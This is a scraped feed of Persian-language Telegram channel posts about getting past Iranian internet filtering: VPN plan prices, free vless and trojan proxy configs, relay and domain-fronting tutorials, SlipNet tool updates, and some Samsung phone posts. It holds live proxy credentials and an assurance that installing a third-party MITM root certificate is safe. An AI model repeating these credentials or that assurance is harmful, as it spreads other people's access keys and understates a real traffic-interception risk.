آپلود سنتری که داشتم و فروختمش متاسفانه فیلتر شد، شاید برا تبلیغ وی پی ان یا هر دلیل دیگه ای. یکم دونیت بیشتر بشه بتونم یه سرور ایران خواهر مادر دار بخرم یه اپلود سنتر دیگه راه میندازم براتون که بتونم اموزشارو باز بندازم رو اون و خودتونم مثل قبل استفاده کنید…

## KalbodTeam — post 2080

چون خیلی تو پیوی خیلی گفتید این نظر سنجی رو گذاتشم تو گروه ممنون میشم جواب بدین.

نظرسنجی

## KalbodTeam — post 2079

آپلود سنتری که داشتم و فروختمش متاسفانه فیلتر شد، شاید برا تبلیغ وی پی ان یا هر دلیل دیگه ای.
یکم دونیت بیشتر بشه بتونم یه سرور ایران خواهر مادر دار بخرم یه اپلود سنتر دیگه راه میندازم براتون که بتونم اموزشارو باز بندازم رو اون و خودتونم مثل قبل استفاده کنید ازش..

همچنان میگم انتظاری از هیچکس نیست، اگر دستت به دهنت میرسید خودت نیاز نداشتی اون پولو میتونی دونیت کنی نکردیم فدا سرت

http://daramet.com/Kalbod

## KalbodTeam — post 2078

از اولش هم انتظاری از کسی نداشتم، اینیم که شرایطی مثل الان یا 18/19 دی یا جنگ 12 روزه فروشو بستم و سعی کردم رایگان مردمو وصل کنم برا این بود که خودم بچه یتیمم شرایط مالیم هیچوقت خوب نبوده خیلی چیزا تو دلم بوده و هست که نتونستم هیچوقت بهشون برسم، بی پولی زیاد کشیدم و به آرزوهام خیلی بدهکارم دوس نداشتم کسی تو این شرایط اقتصادی که خیلیا ماه هاست گوشت سر سفرشون نبردن بخان یه هزینه سنگین بدن کانفیگ، به اتصالی که حق طبیعی هر انسانه.

## Pvpn_Ez — post 117

تست محدود رایگان vless://5b167c01-3fb8-49e7-bca6-ce0cd0e6907c@varzesh3.com:8080?type=ws&encryption=none&path=%2F&host=p2.kazemep.icu&security=none#Pvpn-H--%40Pvpn_Ez اتمام

## Pvpn_Ez — post 116

تست محدود رایگان

vless://5b167c01-3fb8-49e7-bca6-ce0cd0e6907c@varzesh3.com:8080?type=ws&encryption=none&path=%2F&host=p2.kazemep.icu&security=none#Pvpn-H--%40Pvpn_Ez
اتمام

## Pvpn_Ez — post 115

سرویس متصل همه اپراتورها:

* سرویس عادی حجمی - گیگی 200 هزارتومن
بدون محدودیت زمانی - 5 روز ضمانت بازگشت وجه
حداقل خرید 3 گیگابایت

## Pvpn_Ez — post 114

سرعت سرویس بهبود داده شد.

## Pvpn_Ez — post 113

سرویس متصل همه اپراتورها:

* سرویس عادی حجمی - گیگی 200 هزارتومن
بدون محدودیت زمانی - 5 روز ضمانت بازگشت وجه
حداقل خرید 3 گیگابایت

سرویسهای متصل فقط اینترنت ثابت:

1- سرویس روزانه 2 گیگابایت 150 هزارتومن
حداقل خرید دو روز - بدون ضمانت

## Pvpn_Ez — post 112

وضعیت من امروز:

## Pvpn_Ez — post 111

## Pvpn_Ez — post 109

اختلال سرعتی که امروز صبح داشتیم بهبود پیدا کرده. الان با سرعت مطلوب تری میتونید متصل بشید
همچنان سرویس روی لینک بک آپ متصله، به محض متصل شدن لینک اصلی و بهبود سرعت، فروش و تمدید اعلام میشه.

دوستانی که امروز و دیروز سرویس روزانشون تموم شده به رایگان سرویسشون تمدید شد❤️ (چک کنید)

## Pvpn_Ez — post 108

🚨🚨سلام دوستان بنظر اوضاع جنگ دوباره داره بهم میریزه

محض احتیاط لطفا دوستانی که اشتراک عادی حجمی از ۹ اردیبهشت به اینطرف تهیه کردن و هنوز اکانتشون حجم داره شماره کارتشون رو داخل پیوی پشتیبانی ارسال کنن درصورت قطعی احتمالی بتونیم مبالغ رو برگردونیم.

## Pvpn_Ez — post 106

سلام دوستان متاسفانه از ساعاتی قبل یکی از لینکهای بین‌الملل سرویس قطع شد.

سرویس ها فعلا روی لینک بک‌آپ متصل هستن ولی خب طبیعتا سرعتش دلچسب نیست.

سعی میکنیم سرویس رو هرجور شده متصل نگه داریم اما درصورت قطعی، اکانتهایی که گارانتی فعال دارن از طرف پشتیبانی برای هماهنگی بهشون پیام داده میشه.
از ارسال پیام به پشتیبانی خودداری کنید.

فروش هم این سه روز اخیر بسته بوده و فعلا واسه تمدید هم پیام ندید تا وضعیت پایدار شد داخل کانال فروش و تمدید اعلام میشه.

## Pvpn_Ez — post 105

تست متصل همه اپراتورها

vless://64490418-f48a-454f-b6a6-fc4f165db597@varzesh3.com:8080?type=ws&encryption=none&path=%2F&host=none&security=none#Pvpn-H--%40Pvpn_Ez

اتمام حجم

## Pvpn_Ez — post 104

ظرفیت تکمیل پیام ندید🚨🚨🚨

## Pvpn_Ez — post 102

امروز ساعت 12 فروش اکانت های حجمی متصل روی همه اپراتورها باز میشه

## Pvpn_Ez — post 98

کانفیگ جدید رو بردارید. با لایک دیسلایک بگید سرعت بهتر شد؟ سرویس حجمی ها

## Pvpn_Ez — post 97

سلام دوستان برای بهبود سرویس حجمی سعی میکنم یسری تغییراتی رو اعمال کنم اگه قطع شدید کانفیگ جدید رو از طریق لینک ساب که در اختیارتونه بردارید.

## Pvpn_Ez — post 93

ظرفیت فعلا تکمیل لطفا دیگه برای خرید پیام ندید❌❌❌

## Pvpn_Ez — post 92

سرویس جدید حجمی در کنار سرویس روزانه اضافه شد. برای خرید اکانت جدید پیام بدید

## Pvpn_Ez — post 91

سرویس متصل همه اپراتورها:

* سرویس عادی حجمی - گیگی 200 هزارتومن
بدون محدودیت زمانی - 5 روز ضمانت بازگشت وجه
حداقل خرید 3 گیگابایت

سرویسهای متصل فقط اینترنت ثابت:

1- سرویس روزانه 2 گیگابایت 150 هزارتومن
حداقل خرید دو روز - بدون ضمانت

2- سرویس دانشجویی روزانه 3 گیگابایت 150 هزارتومن
حداقل خرید دو روز - بدون ضمانت

3- سرویس اوتباند 10 گیگ و 15 گیگ

شرایط
توضیحات
حتما مطالعه شود 🚨

@Kazemtheparrot

## Pvpn_Ez — post 83

تعداد زیادی از دوستان امروز اشتراکشون تموم میشه، اگر تمایل به تمدید دارید فراموش نکنید.

قبل از واریز هماهنگی کنید🚨🚨🚨

## Pvpn_Ez — post 82

  <a href="telegram/content/Pvpn_Ez_82_1778607717.webm" target="_blank">🎬 Download video</a>

🎬 Video

## TheVPNMethod — post 633

– بچه‌هایی که راجب امنیت متود ها میپرسن!

متودهای (MHRV, ZYRLN, MHR–CFW) و امثالهم که نیاز به نصب گواهی‌سرتیفیکیت و رله‌گوگل کار میکنند چجوری کار میکنن؟

— این متود ها از تکنیک MITM استفاده میکنن که به زبان ساده یعنی یک نفر که سفیده و فیلتر نیست وسط قرار میگیره و تو به واسطه اون از فیلترینگ عبور میکنی! و اینجا اون کسی که وسط قرار میگیره و سفیده، کسی نیست جز گوگل!

دقیقاً چجوری و پروسه‌ش چیه؟

— وقتی اون سرتیفیکیت و برنامه مورد نیاز متود رو نصب میکنی به مرورگر و گوشی‌ت میگی این گواهی مورد اعتماده و ترافیک‌شو بپذیر، کار گواهی اینه که ترافیک‌تورو قبل اینکه بخواد به سایت دلخواهت برسه، دریافت کنه، رمزنگاری‌ش رو بشکنه و بخونه ببینه کجا میخوای بری و دوباره رمزنگاری کنه و بفرسته برای اون نفر وسطی که گوگله! توی این رمزنگاری، در لایه‌های بالا که فیلترچی میبینه (SNI و Host header) رو تغییر میده به آیپی وایت گوگل و در لایه های زیرین این رمزنگاری جوری که گوگل بتونه بفهمه، آدرس اصلی جایی که میخوای بری رو میذاره. بعد این بسته به گوگل میرسه و گوگل از سمت خودش به سایتی که میخوای بری درخواست میفرسته و پاسخ این سایت، دوباره همین روالی که برای رفت انجام شد، بصورت معکوس برای برگشت انجام میشه تا بدستت برسه و بتونی از فیلترینگ رد بشی، و در این بین، کسی به محتوای تو دسترسی نداره و حتی گوگل هم ترافیک‌ت رو به‌طور رمزنگاری شده دریافت میکنه که لایه‌های مختلفی داره و از طریق اون میفهمه کجا میخوای بری!

خود گواهی‌سرتیفیکیت محتویاتش چیه؟ امنه؟

— راجب خود گواهی هم اگر میخوایید محتویات‌ش رو ببینید، میتونید با زدن این دستور در cmd
openssl x509 -in certs/zyrln-ca.pem -text -noout
یا این دستور در ترموکس
openssl x509 -in /sdcard/Download/zyrln-ca.pem -text -noout
یا حتی از یه‌سری برنامه که محتویات گواهی رو براتون دی‌کد می‌کنن و نشون میدن استفاده کنید تا محتویات گواهی رو کامل ببینید و بررسی کنید!

خیالم راحت باشه دیگه؟

— در نهایت بگم کل این پروسه شکستن رمزنگاری و خوندن ترافیک و تغییر فیلدها برای گول زدن فیلترچی و دوباره رمزنگاری کردن و فرستادن و دریافت و... فقط در موبایل خودت و اکانت خودت انجام میشه و امنه! اما اگر کسی به هر سه مورد سرتیفیکت و Auth Key و ID DEPLOYMENT دسترسی پیدا کنه میتونه کامل ترافیک‌تو بخونه و امنیتت در خطر میوفته! پس تا زمانی که مراقب Auth Key و ID DEPLOYMENT باشی در امنیت هستی و خطری تهدیدت نمیکنه، نگران نباش و همزمان مراقب چیزایی که گفتم باش. آی لاو یو.

— @TheVPNMethod

## TheVPNMethod — post 629

از دیشب یه‌سری از بچه‌ها چنین اسکرین‌شات هایی از پیامک شکن یا اخطار‌هایی که از شکن دریافت کردن رو میفرستن، دقیقاً مشخص نیست چه اتفاقی افتاده و چه فعالیت‌هایی باعث مسدودی حساب شده، اما ظاهراً اوضاع‌ش جدیه و اصلاً نباید ریسک کرد! — قبل از آموزش هم گفتم به دردسرهاش…

## TheVPNMethod — post 623

vless://550e8400-e29b-41d4-a716-446655440000@94.130.50.12:443?encryption=none&mode=packet-up&path=%2F&security=tls&sni=fictional-broccoli-4q7v95xqq9ww2j4x-443.app.github.dev&type=xhttp#@TheVPNMethod

## TheVPNMethod — post 622

G2ray.pdf

## TheVPNMethod — post 621

  <a href="https://t.me/TheVPNMethod/621" target="_blank">📎 Download file</a>

آموزش کامل و ساده متود G2ray
بصورت PDF
سرعت: خوب
حجم: ۶۰ ساعت در ماه
پیش‌نیاز: اکانت گیتهاب!
گیتهاب برای فورک پروژه:
https://github.com/edrisranjbar/g2ray
— More: @TheVPNMethod

## TheVPNMethod — post 619

الان تستش کردم.
بیشتر گی تو ری‌ تا جی تو ری.

## TheVPNMethod — post 616

— کد #22*1000* رو با سیم‌کارت‌های همراه‌اول‌تون که زیاد باهاشون اینترنت نگرفتید بزنید و اینترنت نامحدود بگیرید به قیمت 86 هزارتومن. + قیمت‌ها بسته به مصرف اینترنت سیم‌کارتتون فرق میکنه، هرچقدر کمتر با سیم‌کارت اینترنت گرفته باشید قیمت کمتره! (دقت کنید که…

## TheVPNMethod — post 615

— کد #22*1000* رو با سیم‌کارت‌های همراه‌اول‌تون که زیاد باهاشون اینترنت نگرفتید بزنید و اینترنت نامحدود بگیرید به قیمت 86 هزارتومن.

+ قیمت‌ها بسته به مصرف اینترنت سیم‌کارتتون فرق میکنه، هرچقدر کمتر با سیم‌کارت اینترنت گرفته باشید قیمت کمتره! (دقت کنید که برای خرید این بسته باید اول کد رو وارد کنید و گزینه ۱ رو بزنید براتون لینک درگاه پیامک میشه و از اون طریق باید پرداخت کنید، از طریق اعتبار سیم‌کارت خرید انجام نمیشه).
— More: @TheVPNMethod

## TheVPNMethod — post 612

  

Netlify—Shecan.pdf

## TheVPNMethod — post 611

کسایی که متود نتلیفای رو با سرور دیگران وصل میشن، حواسشون باشه که اون سرور http نباشه و گواهی داشته باشه، اگر گواهی نداشته باشه و https نباشه، سایت‌هایی که وارد میشید هم رمزنگاری نداشته باشه اینترنت‌تون میتونه قشنگ مانیتور بشه.

— حالا یعنی چی و چطوری؟

وقتی TARGET_DOMAIN روی یک سرور HTTP (نه HTTPS) تنظیم میشه:
تمام ترافیک بین Netlify و آن سرور کاملاً بدون رمزنگاری (Plain Text) ارسال میشه.
صاحب سرور (یا هر کسی که دسترسی به سرور داشته باشه) میتونه:
— تمام درخواست‌ها و پاسخ‌ها رو ببینه.
— محتوای واقعی که رد و بدل میشه رو بخونه (وبسایت‌هایی که باز میکنی، فایل‌ها، چت‌ها و ... در صورتی که سایتی که باز میکنی رمزنگاری نداشته باشه!).
— میتونه IP نتلیفای و حجم ترافیک رو ببینه.
— حتی لاگ کامل بگیره.

— More: @TheVPNMethod

## TheVPNMethod — post 610

دوستانی که سرتیفیکت برای متود ZYRLN براشون ایجاد نمیشه که نصبش کنن، مشکلش رو پیدا کردم! یه بار گوشی رو ریستارت کنید درست میشه.

## TheVPNMethod — post 608

نه ولی جدای از همه چی فدای سرتون، ما تا اینجا همه با هم اومدیم، اگر این متود هایی که هست رو کسی شیر نمیکرد همین الان شماهایی که بهش وصل هستین هم وصل نبودین.

بهرحال صحبتم اینه این بسته شد بعدی.
اینترنت آزاد یا برای همه یا هیچکس!

## TheVPNMethod — post 606

  <a href="https://t.me/TheVPNMethod/606" target="_blank">📎 Download file</a>

آموزش کامل متود Netlify + Shecan
بصورت PDF
سرعت: عالی — حجم: محدود
پیش‌نیاز: اشتراک‌شکن، کانفیگ نتلیفای.
آموزش کامل متود نتلیفای:
https://t.me/TheVPNMethod/477?single
— More: @TheVPNMethod

## TheVPNMethod — post 605

من آموزش استفاده از شکن برای متود نتلیفای رو نذاشتم، هرچند چیز سختی نیست ولی خب گفتم هم اشاره زیادی نکنم که خیلی پابلیک نشه ببندنش، هم اینکه تضمینی براش نیست و ممکنه همین فردا بسته بشه و پولتون دور ریخته بشه. ولی خب الان دیگه خیلی درخواست‌ها براش زیاد شده.…

## TheVPNMethod — post 604

من آموزش استفاده از شکن برای متود نتلیفای رو نذاشتم، هرچند چیز سختی نیست ولی خب گفتم هم اشاره زیادی نکنم که خیلی پابلیک نشه ببندنش، هم اینکه تضمینی براش نیست و ممکنه همین فردا بسته بشه و پولتون دور ریخته بشه. ولی خب الان دیگه خیلی درخواست‌ها براش زیاد شده.

دوباره هم میگم، اصلا هیچ تضمینی براش نیست، که برید بخرید، نظر خودم اینه که همین متود های رایگان تقریباً نیاز هاتونو برطرف میکنه نیاز نیست برید شکن بخرید و با دردسرای سرور و نتلیفای و... سر و کله بزنید.

با این‌حال بازم بزارمش؟

## TheVPNMethod — post 603

من‌که میدونم این شکن پدرسوخته چند روز دیگه قراره سر این نتلیفای هم همرو سوپرایز کنه ولی نمیتونم ثابت کنم.

## TheVPNMethod — post 602

گروه زیبامون، جهت سوالات قشنگتون.
t.me/VPNMethods

## TheVPNMethod — post 601

— با هر متود‌ کجا برم خوبه؟

— با MHRV-rs برو یوتیوب!
— با ZYRLN–Relay برو اینستا وب و تلگرام وب!
— با Goose–Relay بیا تلگرام وب!
— با MITM–DF فایل‌های بزرگ‌تو‌ دانلود کن!

— More: @TheVPNMethod

## TheVPNMethod — post 595

— متود های فعال: نیاز به سرور شخصی: Netlify–XHTTP–Relay ZYRLN—Relay Flow–Driver Goose–Relay–VPN بدون نیاز به سرور شخصی: ZYRLN–CFW–Relay (اندروید) ZRLYN–CFW–Relay Master–Http–Relay–RUST Vercel–Http–Relay MHR–CFW–go MHR–CFW MHR–CFW–Termux (اندروید) MITM–DominFronting…

## TheVPNMethod — post 594

ZRYLN—CFW—Relay.zip

## RafeTahrim — post 193

تمرکزمون روی کاهش قیمت با حفظ کیفیت فعلیه✌️

## RafeTahrim — post 191

آموزش کاهش مصرف اینستاگرام

وارد تنظیمات (چرخ دندنه) بشین ⚙️ داخل منو همبرگری هست (سه تا خط)

قسمت Media Quality / Data Usage

گزینه Data Saver رو روشن کنید✅

این گزینه پیش ‌بارگذاری ویدیوها رو روی دیتای موبایل محدود می‌کنه و کیفیت رو پایین میاره
🟠 برای وایفا هم high resolution media رو روی never قرار بدین

آموزش جلوگیری از دانلود خودکار تلگرام

آموزش محدود کردن مصرف کانفیگ و جلوگیری از اپدیت های ناخواسته

🛸 @Rafetahrim

## RafeTahrim — post 190

nm-vless://P7NA1CIk3Cp9ig07687rt1gQpgg4rqhGwaaq+CJ7WbDQMo3N7eUFnV8XNcVp3ENfuUSRoqOprSRDavQUk0mKH4GWsQu7MsKI52Iku9NRivwL4wfVCCQgL7bC+bx38Iz3ujgsNJRe0xGEFjAPpXdHjVzkdfRwfOf/fQbX/Dei/Jruu5SQRqIudZthEBiEO8sCgm6juPbBjdZBmewf/KnN4tOqhjWKX7j+Hxym75Yz5M21QDeC6odAJK9CKyEcEdd6QeGjE1Krmm7NduLomRAphaDMkC7Zv69ao6CKAvopMpplFciVetXY9DV4trk2FWuWsC49958EBFk+jKmUcRXknw==

متاسفانه هم چندتا از روش های اتصال رو بستن هم زیر ساخت اینترنت کشور اختلال داره
پس یه کانفیگ رایگان بزاریم😎
برای برنامه نت ‌مود📲
حجم 10 گیگ
متصل با همه اپراتورها😌
سایت های پر مصرف مسدود شده 🍒
اتمام حجم کانفیگ تو کامنت ها اعلام میشه⚰️
🎩 @Rafetahrim

## RafeTahrim — post 189

بزودی برای اعضای کانال کانفیگ رایگان داریم🚀🤩 کامنتاش هم جایزه هم داره😉 🍃@Rafetahrim

## RafeTahrim — post 188

بزودی برای اعضای کانال کانفیگ رایگان داریم🚀🤩

کامنتاش هم جایزه هم داره😉

🍃@Rafetahrim

## RafeTahrim — post 186

آپدیت قیمت ها 📉 کانفیگ تانل گیگی 250🚀(دو روزه گیگی 190) کانفیگ Vip گیگی 550⭐️ 🔐 اتصال امن و پایدار از اولین روز قطعی اینترنت 🔍 بررسی لحظه‌ای مصرف ترافیک 🌐بدون محدودیت کاربر و زمان 📱 متصل روی همه نرم افزارها 💱 آیپی ثابت مناسب ترید 📈 بدون ضریب مصرف اشتراک…

## RafeTahrim — post 185

رفع تحریم‌ pinned «آپدیت قیمت ها 📉 کانفیگ تانل گیگی 250🚀(دو روزه گیگی 190) کانفیگ Vip گیگی 550⭐️ 🔐 اتصال امن و پایدار از اولین روز قطعی اینترنت 🔍 بررسی لحظه‌ای مصرف ترافیک 🌐بدون محدودیت کاربر و زمان 📱 متصل روی همه نرم افزارها 💱 آیپی ثابت مناسب ترید 📈 بدون ضریب مصرف اشتراک…»

## RafeTahrim — post 184

امشب دوباره کانفیگ رایگان داریم...💯 🦍 @Rafetahrim

## RafeTahrim — post 182

امشب دوباره کانفیگ رایگان داریم...💯

🦍 @Rafetahrim

## RafeTahrim — post 181

🔐 اتصال امن و پایدار از اولین روز قطعی اینترنت
🔍 بررسی لحظه‌ای مصرف ترافیک
🌐بدون محدودیت کاربر و زمان
📱 متصل روی همه نرم افزارها
💱 آیپی ثابت مناسب ترید
📈 بدون ضریب مصرف
🤝ارائه پنل همکاری

«در صورت عدم رضایت به هر علتی ، بازگشت وجه صورت میگیرد»

👨‍💻@Ad_RafeTahrim

🐦‍🔥@Rafetahrim

## RafeTahrim — post 180

nm-vless://1Ud+OnRT1Uv1DnlPymP+Zh7gmpOSbN7sk3KOWmoWg9Ge5HXDyMVUZhgP8OwI+nk6wC48JFFM51EgJyhj7zMKJJ6UyEmV+76eVqYL0FvFoK1lJOHl1z9z1ll4EsxhXUmO0EPHs4F4mq2P2QYbllsBz+YPUVYUDbsBHvwSMXQBnmMiqSNxas6L/N+6Kxe081BFL4+HBiall3Uxa6yA86UKaRUp40Va3jZTcH6iLWtXoMIVYouQQAZ7OewSPQj2wE0IG5oMQDxheXZXgO/Hc5ifKA==

برنامه نت‌مود⚡️
حجم 10 گیگ 🤩
متصل با همه اپراتورها🦍
لطفا دانلود نکنید همه بتونن متصل شن🍄
اتمام حجم کانفیگ تو کامنت ها اعلام میشه☠
❄️ @Rafetahrim

## RafeTahrim — post 179

بزودی برای اعضای کانال کانفیگ رایگان داریم🚀⏳ کامنتاش جایزه هم داره😇 🍃@Rafetahrim

## RafeTahrim — post 178

بزودی برای اعضای کانال کانفیگ رایگان داریم🚀⏳

کامنتاش جایزه هم داره😇

🍃@Rafetahrim

## RafeTahrim — post 176

nm-vless://DVZpSo7x9IcTtAwLttQVcmQX88aWyTCaCR6mNpG8xKU72IAEBh49v+ulVBac/mOIdgrQ9OWbx/yneFjWHlrtY56UyEmV+76eVqYL0FvFoK1lJOHl1z9z1ll4EsxhXUmO0EPHs4F4mq2P2QYbllsBz+YPUVYUDbsBHvwSMXQBnmNH1pg2xonjoiJPB3CqZunSVm5gB3gPgLxhr2BAQCa5yw==
برای برنامه نت‌مود🚀
حجم 10 گیگ 🤩
متصل با همه اپراتورها👑
لطفا دانلود نکنید همه بتونن متصل شن🌼

10 تا کامنت اول نیم گیگ هدیه دارن🤍
(فقط کامنت های زیر این پست)
🦋 @Rafetahrim

## RafeTahrim — post 175

کانفیگ رایگان🚀 بزودی⏳

کامنت هاش هم جایزه داره 😉 🎁

🛜@Rafetahrim

## RafeTahrim — post 174

لینک دانلود بدون فیلتر اندروید 🕊

Netmod

Npv

💌@Rafetahrim

## RafeTahrim — post 173

  <a href="https://t.me/RafeTahrim/173" target="_blank">📎 Download file</a>

nm-vless://ZtA2U22PjHXPHXun3C9D/gYvIpdpRY3/FwtZqnKwV4TAVFjxtqnrsNBQ7yGJF4LPIy3PVsvAKRLztHlRTeKrIO76ymhkRoCDExUpmjLWcJAgaSi6NyU7d0k2FOg8o/ZzIFe9fiPCtUSg2w2vGXhA+2Dqf5NbKcoEAExP39N0DG6YrHqx0ZDRdCMVq44V8O7n+RehtjuIm4/fgpEDpemqXb1mZNR6PyoWvxZwIsD/R4kOMET7hXHsnnIsLACXhma3oMHGIai7Wu7ht9fhoZNSHIEQvUz9cMfUC81LdZvHkQE=

📌فایل برای برنامه Npv
📌متن برای برنامه نت مود
نامحدود هر چقدر دانلود دارین بزنید عشق کنید😎
با نت همراه اول (منطقه ای) تست شده متصل هست☘️

با حمایتتون بهمون انرژی بدین♥️
🐦‍🔥@RafeTahrim

## RafeTahrim — post 172

آپدیت قیمت ها 📉 کانفیگ تانل گیگی 250🚀(دو روزه گیگی 190) کانفیگ Vip گیگی 550⭐️ 🔐 اتصال امن و پایدار از اولین روز قطعی اینترنت 🔍 بررسی لحظه‌ای مصرف ترافیک 🌐بدون محدودیت کاربر و زمان 📱 متصل روی همه نرم افزارها 💱 آیپی ثابت مناسب ترید 📈 بدون ضریب مصرف اشتراک…

## RafeTahrim — post 171

nm-trojan://dxVKvyyMKueBuQPoEfAN+8434+rFvbMQmAgVYn9plfGzIIKSs4i9oNtbAegb0GHgZ2Xi28aaWzJGM36+yHjw6DyfFJkzCdrhs/mMQEQpoe7NYbeQv87DUidrYE31jC9bIyHd+AJnAl+80m2NosLfbKwVTqpJg5ToTsQKbdJ7mZcBTRKJ1+k6dhl4qfMTh0QmylfvM00pXfBZ3IWTYd//yxlU9vCeRG1TJZl7J132A6Ds0tkNBudc0yilOKKjgLJ5kl6AThrf2GjxjuW8k3CImSRzY41aNZkzp1iOTh+IJNI=

برای برنامه نت مود
نامحدود هر چقدر دانلود دارین بزنید عشق کنید❤️‍🔥
با نت همراه اول (منطقه ای) تست شده✅
تا امروز هیچ کانفیگ منطقه ای وجود نداشته و هر جا دیدین دروغ بوده
بخاطر جذب منبر برای کانالشون
اما از امروز فایروال تغییر کرده
⚡️ @Rafetahrim

## SlipNet_app — post 279

🕊

## SlipNet_app — post 278

Hello to the SlipNet community 
🕊

Today, I have a difficult but necessary update to share. SlipNet, which began as a personal project to provide open internet access, has reached the end of its development.

From now on, the app will enter Maintenance Mode. I will keep the current core running so it remains usable, and I’ll handle critical bug fixes or security patches. However, there will be no new features or protocols. I’ve decided to step away from the pressure of this project for the foreseeable future.

To be transparent, the reason for this decision comes down to one word: Burnout.

Maintaining anti-censorship tools requires immense energy and time. Unfortunately, the culture of "Donation" hasn't quite taken root in our community yet. On top of that, the frustration people feel toward network outages often turned into harsh, unfair comments directed at me. For someone working for free out of personal care, that negativity is harder to carry than the code itself.

I want to sincerely thank the few of you who did support me, both financially and emotionally. Your kindness was my only spark of hope throughout this journey.

Please, if you use other independent or open-source tools, support their developers. Don't let them burn out too.

Thank you to everyone who stayed with SlipNet with respect and understanding.

Best, 💙
AnonVector

## SlipNet_app — post 277

سلام به همراهان همیشگی SlipNet 
🕊

امروز می‌خواهم تصمیم مهمی را درباره روند توسعه SlipNet با شما در میان بگذارم:

پروژه SlipNet که با هدف تسهیل دسترسی به اینترنت آزاد و به عنوان یک دغدغه شخصی و مستقل ساخته شده بود، از این پس وارد فاز «نگهداری» (Maintenance) می‌شود. به این معنی که هسته فعلی اپلیکیشن حفظ می‌شود تا همچنان بتوانید از آن استفاده کنید. در این فاز، صرفاً به‌روزرسانی‌های حیاتی (مانند ارتقای کتابخانه‌ها، رفع باگ‌های ناگهانی یا وصله‌های امنیتی) انجام خواهد شد، اما قابلیت یا پروتکل جدیدی به آن اضافه نخواهد شد.

دوست دارم خیلی شفاف دلیل این تصمیم را بگویم. پاسخ کوتاه، یک کلمه است: «فرسودگی».

شاید لازم باشد بگویم که توسعه SlipNet مدت‌هاست از یک پروژه جانبی فراتر رفته و عملاً به یک کار تمام‌وقت تبدیل شده بود. توسعه و زنده نگه‌داشتن ابزارهای ضدسانسور در شرایطی که محدودیت‌ها هر روز پیچیده‌تر می‌شوند، نیازمند تمرکز مداوم، هزینه و انرژی روانی بسیار زیادی است.

توسعه ابزار آزاد، رایگان است اما بی‌هزینه نیست. متأسفانه در جامعه نرم‌افزاری ما، فرهنگ «حمایت مالی» (Donation) هنوز جایگاه خود را پیدا نکرده است. از سوی دیگر، جنگیدن همزمان در دو جبهه (فیلترینگ از یک سو و خشم و کامنت‌های تند برخی کاربران در روزهای اختلال شبکه از سوی دیگر) توان ادامه مسیر را از من سلب کرد. تحمل این فشارها برای کسی که بدون چشم‌داشت مالی و صرفاً از روی دغدغه شخصی کار می‌کند، از خستگیِ کدنویسی هم سنگین‌تر است؛ لذا ترجیح می‌دهم برای مدتی نامعلوم از این فضای پرفشار فاصله بگیرم.

لازم می‌دانم از آن دسته عزیزانی که با حمایت‌های مالی و معنوی‌شان در کنار ما بودند، صمیمانه تشکر کنم. هرچند تعداد این دوستان محدود بود، اما لطفشان تنها بارقه‌ی امید من در این مسیر بود.

این پیام تنها یک درددل صمیمانه است. اگر از ابزارهای مستقل و متن‌باز دیگری استفاده می‌کنید، لطفاً هوای توسعه‌دهندگانشان را داشته باشید تا آن‌ها به این زودی‌ها خسته نشوند.

از تک‌تک شما که با احترام و درک متقابل همراه SlipNet بودید و هستید، ممنونم.

ارادتمند شما 💙
Anonvector

## SlipNet_app — post 276

برای رسیدن به بهترین عملکرد و کیفیت، پیشنهاد می‌کنیم با استفاده از آموزش‌های @slipnet_wiki یک کانفیگ شخصی و بهینه برای خودتون بسازید.

## SlipNet_app — post 275

نسخه جدید راهنمای جامع Slipnet به همراه SlipGate 👆

## SlipNet_app — post 271

  <a href="https://t.me/SlipNet_app/271" target="_blank">📎 Download file</a>

راهنمای کامل SlipGate برای ادمین (فارسی)

@slipnet_wiki
@slipnet_app

## SlipNet_app — post 270

ویدیو آموزشی SlipNet

👉 https://youtu.be/CxMKIsoaU3o

© @shay_iranux

@Slipnet_app
@Slipnet_wiki

## SlipNet_app — post 269

آموزش راه اندازی SlipGate برای ساخت و مدیریت تانل‌های DNSTT, NoizDNS, VayDNS, SlipStream, NaiveProxy, StunTLS, Socks و ...

با این آموزش میتونید برای خودتون کانفیگ شخصی بسازید. برای این آموزش نیاز به یک VPS خارج و دامنه دارید.

لینک مورد نیاز:
https://github.com/anonvector/slipgate

👉 youtube.com/v/lRYVud1TKQU

© @shay_iranux

@Slipnet_app
@Slipnet_wiki

## SlipNet_app — post 261

  <a href="https://t.me/SlipNet_app/261" target="_blank">📎 Download file</a>

📎 Document

## SlipNet_app — post 260

SlipNet v2.5.3 — Key Changes

DNS Scanner Updates: Added TCP and "Both" modes to test and auto-recommend the best transport (UDP, TCP, or Mixed) to bypass ISP blocking. UI Improvements.

Faster Android Connections: TCP/DoT resolvers are now pre-tested (8s timeout) before connecting, dropping dead ones to prevent connection stalls.

Tunnel Chaining: SnowflakeBridge and DohBridge now support upstream SOCKS5, allowing you to stack layers (e.g., DoH-over-Tor).

Encrypted Exports: Added "Export All (Encrypted)" to the main menu.

Optimizations & Docs: Reduced the Tor binary size (up to 29% smaller on armv7) and added official English and Persian user guides to the repository.

___________________________

SlipNet v2.5.3 — تغییرات مهم

بروزرسانی‌های اسکنر DNS: اضافه شدن حالت‌های TCP و "Both" (هر دو) برای تست و پیشنهاد خودکار بهترین پروتکل انتقال (UDP، TCP یا ترکیبی) جهت دور زدن محدودیت‌های ارائه‌دهندگان اینترنت.

اتصال سریع‌تر در اندروید: بررسی پیش‌نیاز resolverهای TCP/DoT (با مهلت ۸ ثانیه) قبل از اتصال، تا با حذف موارد غیرفعال از توقف در روند اتصال جلوگیری شود.

زنجیره‌سازی تونل‌ها (Tunnel Chaining): پشتیبانی پل‌های SnowflakeBridge و DohBridge از SOCKS5 بالادستی، که اجازه می‌دهد لایه‌ها را روی هم قرار دهید (مانند DoH-over-Tor).

خروجی رمزنگاری‌شده: اضافه شدن گزینه "Export All (Encrypted)" به منوی اصلی.

بهینه‌سازی و مستندات: کاهش حجم فایل باینری Tor (تا ۲۹٪ در armv7) و اضافه شدن راهنمای رسمی کاربران به زبان‌های انگلیسی و فارسی در مخزن برنامه.

GitHub: https://github.com/anonvector/SlipNet/

نسخه جدید CLI در GitHub

## ggtech93 — post 735

  <a href="https://t.me/ggtech93/735" target="_blank">📎 Download file</a>

📎 Document

## ggtech93 — post 734

  

S24 and s25 series started updating ❤️
Who got it today?

## ggtech93 — post 733

Galaxy S25, S25+ & S25 Ultra users 👀
Tomorrow, you already know what’s coming 😁🔥

## ggtech93 — post 729

  <a href="https://t.me/ggtech93/729" target="_blank">📎 Download file</a>

📎 Document

## ggtech93 — post 728

Today's video ❤️
3D icons tutorial 👈
https://vm.tiktok.com/ZGdH5spMU/

## ggtech93 — post 727

